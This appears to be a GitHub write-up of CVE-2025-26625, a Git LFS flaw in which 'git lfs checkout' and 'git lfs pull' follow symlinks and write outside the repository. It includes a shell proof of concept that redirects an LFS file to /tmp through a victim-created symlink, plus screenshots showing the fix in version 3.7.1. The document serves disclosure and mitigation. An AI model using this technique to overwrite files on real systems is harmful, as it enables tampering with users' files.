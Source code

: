 # CVE-2025-26625: Git LFS Vulnerability Analysis and Mitigation
<img width="401" height="737" alt="image" src="https://github.com/user-attachments/assets/078b3370-fe30-4ac2-849b-956354fe12f0" />

## Overview

**CVE-2025-26625** is a vulnerability affecting **Git LFS (Git Large File Storage)** versions **0.5.2 through 3.7.0**, where the commands  
`git lfs checkout` and `git lfs pull` fail to properly validate symbolic links before writing to files in the working tree.

An attacker would need to do some serious social engineering to pull off this attack as the victim will have to create the symbolic link themselves.
The attacker vector for this is quite low/difficult because of this.

Discovered and disclosed on **October 17, 2025**, this issue impacts all Git LFS installations released since version 0.5.2.  
It was documented in both the **GitHub Security Advisory** and the **National Vulnerability Database (NVD)**.

---

## Technical Details

The vulnerability arises from **improper link resolution before file access**, classified under **[CWE-59: Improper Link Resolution Before File Access ('Link Following')](https://cwe.mitre.org/data/definitions/59.html)**.

When Git LFS populates a repository’s working tree with large file objects, certain commands may inadvertently **follow existing symbolic or hard links**.  
If those links point **outside the repository’s working tree**, the LFS process may write data to unintended locations on the filesystem — potentially allowing a malicious repository to modify arbitrary files accessible to the user.

**Affected Commands:**
- `git lfs checkout`
- `git lfs pull`
---

```
# Machine A
mkdir lfs-remote-demo && cd lfs-remote-demo
git init
git lfs install
git lfs track "*.bin"
mkdir data
printf "you got pwned\n" > data/file.bin
git add .gitattributes data/file.bin
git commit -m "Add LFS file"
git push


# Machine B
git clone <the-remote-url> lfs-attack-demo
cd lfs-attack-demo

# At this point git has created "data" (a directory) and a pointer file or placeholder.
# Now remove the directory and replace it with a symlink to /tmp (or another safe path)
# yeah... the victim will need to create the symblink and pwn themselves...
rm -rf data
ln -s /tmp data

# Now run git lfs pull
git lfs pull

```

Example using `git lts` version 3.6.0: file written to the `SHOULD_BE_EMPTY` directory

<img width="851" height="852" alt="image" src="https://github.com/user-attachments/assets/4893d041-33f4-4f6c-a9ca-18038fecd0e6" />


Upgraded `git lts` version 3.7.1: Nothing written to the `SHOULD_BE_EMPTY` directory

<img width="851" height="789" alt="image" src="https://github.com/user-attachments/assets/41fd309a-1610-44f5-97dd-fe7e8ec5e229" />
